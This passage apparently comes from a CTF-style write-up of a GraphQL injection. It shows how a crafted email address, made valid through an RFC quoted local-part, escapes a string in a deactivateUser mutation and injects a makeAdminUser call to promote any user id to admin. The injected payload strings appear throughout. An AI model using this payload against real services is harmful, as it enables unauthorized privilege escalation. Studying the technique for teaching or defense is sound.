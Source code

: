 ```json
mutation {
            deactivateUser (user: {email: " <INPUT> "}){
                success
            }
        }
```

So to make a user NOT be deactivated AND elevated to admin we would need to do

```json
mutation {
            deactivateUser (user: {email: "" }) { success } makeAdminUser( user: { id: 1 } ) {
                success
            }
        }
```

For this, the injection looks like this : 
`" }) { success } makeAdminUser( user: { id: 1 } ) {`

**Perfect**, we can deactivate no one, and elevate a user with any id to admin

Now this is where we run into the issue, how can we register a user with this email? RFC should block it 

### How the RFC sees an email

The RFC sees an email divided in 2 parts `<local-part>@<domain>`

The Local-part can either be :
- Letters [a-Z]
- Digits [0-9]
- These special chars `!#$%&'*+-/=?^_{|}~`
- It does **NOT** allow `()[]:;@\,<> or space`

So how exactly can we get out of the string (`" <INPUT> "`) and use special chars? 

The RFC actually allows almost any ASCII character when wrapped in double quotes, so :

- All of this `"()<>[]:,;@\"!#$%^&*"` is allowed

So this should be enough to build our exploit correct? 

_REMINDER_ : `" }) { success } makeAdminUser( user: { id: 1 } ) {`

So our local-part will be exactly that 

`" }) { success } makeAdminUser( user: { id: 1 } ) { "` and our domain `@cdm.com`

BUT this raises an issue, as it creates this errored mutation : 

```json
mutation {
            deactivateUser (user: {email: "" }) { success } makeAdminUser( user: { id: 1 } ) { "@cdm.com
                success
            }
        }
```
